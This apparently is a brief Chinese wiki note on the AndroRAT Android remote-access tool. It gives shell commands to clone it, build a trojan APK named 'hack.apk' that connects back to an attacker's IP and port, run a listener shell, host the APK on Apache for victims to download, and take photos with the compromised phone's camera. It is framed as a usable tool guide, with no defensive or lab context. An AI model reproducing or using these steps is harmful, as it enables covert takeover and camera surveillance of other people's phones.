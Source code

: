 ```yaml
---
title: 01.AndroRAT
description: android远程管理工具
published: 1
date: 2023-05-29T04:17:17.234Z
tags: web tools
editor: markdown
dateCreated: 2023-04-19T17:49:03.242Z
---
```


<center>AndroRAT</center>



[toc]





### AndroRAT

> 一个简单的使用套接字的android远程管理工具 [github](https://github.com/karma9874/AndroRat)



```shell
# 下载
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
pip install -r requirements.txt
```



### 1. 使用

```shell
# 生成apk  
python3 androRAT.py --build -i 192.168.1.10 -p 8888 -o hack.apk

# 监控端
python3 
python3 androRAT.py --shell -i 0.0.0.0 -p 8888

# 开启apche2 让用户可以网站下载apk
sudo systemctl start apache2.service
# 安装打开 提示连接到客户了

help # 查看帮助文档
# 相机
acmList   takepic 0
```

